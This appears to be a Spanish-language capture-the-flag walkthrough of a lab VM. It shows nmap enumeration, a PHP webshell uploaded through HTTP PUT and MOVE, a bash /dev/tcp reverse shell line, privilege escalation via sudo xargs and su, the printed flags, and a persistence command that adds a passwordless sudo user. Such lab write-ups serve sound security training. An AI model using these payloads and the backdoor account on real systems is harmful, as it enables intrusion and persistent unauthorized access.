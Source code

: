 [[Maquinas]] de [[Hacking Ético]]

>Resolucion Anterior: Se trata de una maquina basada en una vulnerabilidad de RFI a RCE PHP mediante los metodos PUT y MOVE de HTTP

---

Iniciamos con un ping sweep para descubrir la maquina.

``` java
sudo nmap -sn 192.168.56.0/24
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:33 CET
Nmap scan report for 192.168.56.1
Host is up (0.00028s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.00031s latency).
MAC Address: 08:00:27:A4:04:70 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up (0.00079s latency).
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104
Host is up (0.00079s latency).
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.08 seconds
```

Realizamos un ping por visibilidad:

``` java
ping -c 1 192.168.56.104
PING 192.168.56.104 (192.168.56.104) 56(84) bytes of data.
64 bytes from 192.168.56.104: icmp_seq=1 ttl=64 time=0.560 ms

--- 192.168.56.104 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.560/0.560/0.560/0.000 ms
```

El ttl de 64 sugiere que se trata de un sistema Linux, lancemos una enumeracion nmap completa:

``` bash
sudo nmap -sS -sC -sV -O -p- -T5 192.168.56.104 -oN nmap.txt
```

La salida:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:36 CET
Nmap scan report for 192.168.56.104
Host is up (0.00070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: 415 Unsupported Media Type
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Potentially risky methods: PUT MOVE
|_http-server-header: nginx/1.22.1
|_http-title: 415 Unsupported Media Type
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
                                                               
```

Tenemos dos servicios http y uno de ssh. Podemos tambien ver que el servicio HTTP de 8080 permite PUT y MOVE. Podemos iniciar nuestro proceso de explotacion aqui, enumeremos este servicio.

---

## Enumeracion de HTTP en el puerto 8080

Tenemos la info de que se trata de nginx 1.22.1, que no parece ser vulnerable a nada segun searchsploit.

Intentemos averiguar mas detalles, pero whatweb solo devuelve esto:

``` java
whatweb 192.168.56.104:8080
http://192.168.56.104:8080 [415 Unsupported Media Type] Country[RESERVED][ZZ], HTTPServer[nginx/1.22.1], IP[192.168.56.104], Title[415 Unsupported Media Type], nginx[1.22.1]

```

Este codigo de error corresponde a una respuesta a una llamada de PUT, esto seguramente se deba a que no permita POST o GET y por lo tanto interprete nuestras peticiones como intentos de subida de archivos, probemos a subir un fichero .txt.

Creamos un archivo y lo subimos mediante PUT mediante:

``` bash
curl -X PUT -T "file.txt" "http://192.168.56.104:8080/file.txt"
```

Quizas podriamos subir un archivo PHP, de momento sabemos que podemos subir archivos TXT.

Utilizando la simple-backdoor de /usr/share/webshells no podemos:

``` bash
curl -X PUT -T "back.php" "http://192.168.56.104:8080/back.php"
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

Pero podemos subirlo en txt.
Logro subirlo con:

``` bash
curl -X PUT -T "back.txt" "http://192.168.56.104:8080/back.txt"
```

Pero el contenido TXT no se renderiza, pero quizas pueda utilizar move para cambiarlo a php:

``` bash
curl -X MOVE -H "Destination: http://192.168.56.104:8080/back.php" http://192.168.56.104:8080/back.txt
   
```

Y funciona, tenemos RCE desde el parametro cmd, podemos realizar una peticion a:

```
http://192.168.56.104:8080/back.php?cmd=ls;whoami;
```

Y obtenemos:

```
back.php
file.txt
index.html
www-data
```

Pero esto no nos sirve, no fui capaz de estabecer una shell con la URL:

```
http://192.168.56.104:8080/back.php?cmd=bash -i >& /dev/tcp/192.168.56.100/4444 0>&1
```

Asi que probare a subir una reverse shell de PHP directamente.

Y con la reverse shell de PHP clasica estamos dentro:

```
 nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.100] from (UNKNOWN) [192.168.56.104] 58644
Linux unit 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
 19:59:43 up 27 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Ahora en cuanto a la escalada de privilegios, veamos:

``` bash
$ sudo -l
Matching Defaults entries for www-data on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on unit:
    (jones) NOPASSWD: /usr/bin/xargs
```

Podemos utilizar xargs con los permisos de un tal usuario jones, segun gtfobins tenemos permisos de escritura, con lo que sacamos la flag de usuario:

``` bash
$ sudo -u jones xargs -a "/home/jones/user.txt" -0
956f4558a2cf5c2b8d55f2c4b1f4da91
```

Pero podemos abusar de los permisos para obtener una sh con jones:

``` bash
$ sudo -u jones xargs -a /dev/null sh
whoami
jones
```

Ahora veamos los permisos de jones:

``` bash
sudo -l
Matching Defaults entries for jones on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jones may run the following commands on unit:
    (root) NOPASSWD: /usr/bin/su

sudo su
whoami
root
```

Y ya esta, somos root.

Flag de root:

```
cat /root/root.txt
0d65e83f34a9f15f04ca3ec89cc25595
```

Lo que podemos hacer, es crear un usuario pwn con todos los permisos posibles por persistencia:

``` bash
sudo useradd -m -s /bin/bash pwn && sudo usermod -aG sudo pwn && sudo passwd -d pwn && sudo echo "pwn ALL=(ALL) NOPASSWD: ALL" | sudo tee /etc/sudoers.d/pwn
```

Tambien se pueden tener una shell mas comoda desde el reverse shell inciando el escuchador